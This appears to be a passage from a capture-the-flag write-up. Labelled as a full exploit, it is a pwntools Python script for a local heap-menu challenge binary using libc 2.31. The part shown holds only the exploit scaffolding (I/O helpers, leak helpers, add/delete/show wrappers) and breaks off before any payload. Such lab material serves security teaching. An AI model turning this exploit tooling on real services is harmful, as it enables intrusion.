 完整exp：

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc-2.31.so')


add_idx = 1
delete_idx = 2
show_idx = 3
edit_idx = 4

def dbg():
    gdb.attach(p)
    pause()

def choice(cho):
    sla('>> ',cho)

def add(idx,size,content):
    choice(add_idx)
    sla('How much?\n',size)
    sla('Which?\n',idx)
    sla('Content:\n',content)

def delete(idx):
    choice(delete_idx)
    sla('Which one?\n',idx)

def show(idx):
    choice(show_idx)
    sla('Which one?\n',idx)

```